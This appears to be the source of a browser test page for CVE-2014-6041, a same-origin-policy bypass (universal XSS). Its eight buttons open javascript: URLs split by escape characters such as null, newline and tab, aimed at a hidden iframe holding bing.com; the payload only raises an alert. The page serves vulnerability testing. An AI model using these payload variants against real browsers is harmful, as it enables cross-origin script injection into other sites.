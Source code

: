 ```yaml
---
layout: default
title: SOP Bypass - Testcase 9
permalink: /sop/new/9
---
```


# SOP Bypass - Testcase 9

Testing for SOP bypass using escape characters
<iframe height="0" width="0" name="CVE-2014-6041" src="https://web.archive.org/web/20180831120259if_/https://www.bing.com/" style="display:none;" data-ruffle-polyfilled=""></iframe>

<input type="button" id="btn_test" class="test" value="Run Test Case 1" onclick="window.open('\u0000javascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 2" onclick="window.open('jav\nascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 3" onclick="window.open('jav\rascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 4" onclick="window.open('javas\tcript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 5" onclick="window.open('javas\fcript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 6" onclick="window.open('javasc\bript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 7" onclick="window.open('java\vscript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">
<input type="button" id="btn_test" class="test" value="Run Test Case 8" onclick="window.open('java\0script:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">

**Note:**
If page loads popup and displays an alert box "Accessed Property of bing.com, your browser is vulnerable to SOP bypass."
